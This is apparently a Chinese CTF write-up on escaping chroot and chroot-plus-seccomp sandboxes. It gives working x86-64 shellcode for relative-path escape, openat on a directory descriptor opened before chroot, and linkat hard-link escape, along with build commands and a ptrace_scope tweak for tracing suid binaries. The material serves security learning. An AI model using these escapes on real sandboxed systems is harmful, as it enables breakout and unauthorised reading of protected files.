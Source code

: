 ```yaml
---
layout: post
tags: [pwn]
title: "sandboxing —— escape"
author: wsxk
date: 2024-11-25
comments: true
---
```


- [1. chroot 逃逸](#1-chroot-逃逸)
  - [1.1 相对路径逃逸](#11-相对路径逃逸)
  - [1.2 利用chroot之前打开的目录/文件描述符实现逃逸](#12-利用chroot之前打开的目录文件描述符实现逃逸)
- [2. chroot + seccomp 逃逸](#2-chroot--seccomp-逃逸)
  - [2.1 利用chroot之前打开的目录/文件描述符实现逃逸](#21-利用chroot之前打开的目录文件描述符实现逃逸)
    - [2.1.1 只允许\["openat", "read", "write", "sendfile\] ](#211-只允许openat-read-write-sendfile-)
    - [2.1.2 只允许\["linkat", "open", "read", "write", "sendfile"\]](#212-只允许linkat-open-read-write-sendfile)


# 1. chroot 逃逸<br>
chroot详情可看[https://wsxk.github.io/sandboxing/](https://wsxk.github.io/sandboxing/)<br>

## 1.1 相对路径逃逸<br>
前文提到，chroot是改变了"/"在程序的根目录，这意味着**绝对路径的访问会被限制**，但是相对路径(这取决于你是在哪个目录下运行程序的)是可以绕过这个机制的。**如果程序的当前工作目录没有被改变（即没有调用chdir("/")的话），这个方法大有可为**<br>
示例如下:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241125213653.png)
上述场景中:<br>
```
1. 真flag 位于 /flag
2. 假flag 位于 /tmp/jaio-eyqnjg/flag
3. 程序的当前工作目录是 /home/wsxk/Desktop/CTF/sandboxing
```
因此绕过时使用的是`../../../../../flag`<br><br><br>
当然，如果容器里允许你执行shellocde，那么可以尝试利用之前提到相对路径方法，编写shellcode实现逃逸<br>
当然，这个方法也要求**程序的当前工作目录没有被改变（即没有调用chdir("/")）**
```asm
.global _start
_start:
.intel_syntax noprefix
mov rax, 2   # open
lea rdi, [rip+file_path]  # path
mov rsi, 0   # flags O_RDONLY
mov rdx, 0  # 当指定O_CREAT时，设定文件的权限，这里就没意义
syscall

mov rdi, 1  # 输出的文件描述符
mov rsi, rax # 输入的文件描述符
mov rdx, 0   # offset，0就是从头开始
mov r10, 128 # length，长度
mov rax, 40 # sendfile
syscall 
file_path:
.string "../../../flag"
```
编译命令如下:<br>
```
gcc -nostdlib -static shellcode.s -o shellcode-elf
objcopy --dump-section .text=shellcode-raw shellcode-elf
cat shellcode-raw | /path/to/container/path 
```

## 1.2 利用chroot之前打开的目录/文件描述符实现逃逸<br>
条件**进程在调用chroot、chdir之前，打开了一个目录,例子: `open("/", O_RDONLY|O_NOFOLLOW)`**<br>
可以利用这个实现打开的文件描述符，结合`openat`系统调用，在shellcode中编写代码完成逃逸<br>
`openat`的原型解释如下:<br>
```c
int openat(int dirfd, const char *pathname, int flags, mode_t mode);

dirfd：之前打开的目录描述符，一般情况下都是3
pathname：文件路径，如果为绝对路径，则忽略dirfd；如果是相对路径，则相对于 dirfd 指定的目录。
flags：文件打开模式O_RDONLY ，O_WRONLY，O_RDWR
mode：行为模式，例子：O_CREAT（如果文件不存在则创建）。当然一般填0
```

实际执行时的shellcode为<br>
```asm
.global _start
_start:
.intel_syntax noprefix
mov rax, 257 #openat
mov rdi, 3 # assume opened dir fd = 3
lea rsi, [rip+file_path]
mov rdx, 0 # O_RDONLY
syscall

mov rdi, 1
mov rsi, rax
mov rdx, 0  # offset
mov r10, 128 # length
mov rax, 40 # sendfile
syscall
file_path:
.string "flag"
```
可以用`cat shellcode.raw  | strace -f  /challenge/babyjail_level3 /`调试系统调用出现的问题<br>
`-f`选项指的是跟随fork继续追踪系统调用。<br>
**注意像strace gdb等调试工具，在调试具有suid权限的程序时，会主动舍弃suid权限，要想继续追踪，需要修改内核文件sudo sysctl kernel.yama.ptrace_scope=0.(当然，如果你直接以root权限允许strace、gdb等，就没这个问题)**<br>

# 2. chroot + seccomp 逃逸<br>
seccomp添加了限制，只允许你调用没被禁用的系统调用，如何根据这些系统调用获取flag就是本章节要讲解的目标<br>
## 2.1 利用chroot之前打开的目录/文件描述符实现逃逸<br>
这个思路之前也提到过，总之就是非常好用。<br>
### 2.1.1 只允许["openat", "read", "write", "sendfile] <br>
在只有4个系统调用被允许时，shellcode编写如下<br>

```asm
.global _start
_start:
.intel_syntax noprefix
mov rax, 257 #openat
mov rdi, 3 # assume opened dir fd = 3
lea rsi, [rip+file_path]
mov rdx, 0 # O_RDONLY
syscall

mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 128
mov rax, 40
syscall
file_path:
.string "flag"
```

### 2.1.2 只允许["linkat", "open", "read", "write", "sendfile"]<br>
**linkat 是 Linux 系统调用的一部分，用于创建一个硬链接。它比传统的 link 函数功能更灵活，允许通过文件描述符指定路径，支持相对路径，并提供额外的标志来控制操作行为。**<br>

```c
int linkat(int olddirfd, const char *oldpath,
           int newdirfd, const char *newpath, int flags);

olddirfd: 创建硬链接的源文件所在的目录描述符
oldpath： 创建硬链接的源文件路径，相对路径则为olddirfd/oldpath，绝对路径则为oldpath
newdirfd：创建硬链接的目标文件所在的目录描述符
newpath： 创建硬链接的目标文件路径，同oldpath
flags： 当前只有一个 AT_SYMLINK_FOLLOW，如果 oldpath 是一个符号链接，则对其解析为目标文件（默认情况下符号链接被当作普通文件）
```

实际编写的shellcode如下:<br>
```asm
.global _start
_start:
.intel_syntax noprefix
mov rax, 265 #linkat
mov rdi, 3 # assume opened dir fd = 3
lea rsi, [rip+file_path]
mov rdx, 3 #assume opened dir fd = 3
lea r10, [rip+test_path]
mov r8, 0 #flags=0
syscall

mov rax, 2 # open
lea rdi, [rip+test_path]  # path
mov rsi, 0   # flags O_RDONLY
mov rdx, 0  # 当指定O_CREAT时，设定文件的权限，这里就没意义
syscall

mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 128
mov rax, 40 # sendfile
syscall
file_path:
.string "flag"
test_path:
.string "/test"
```


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>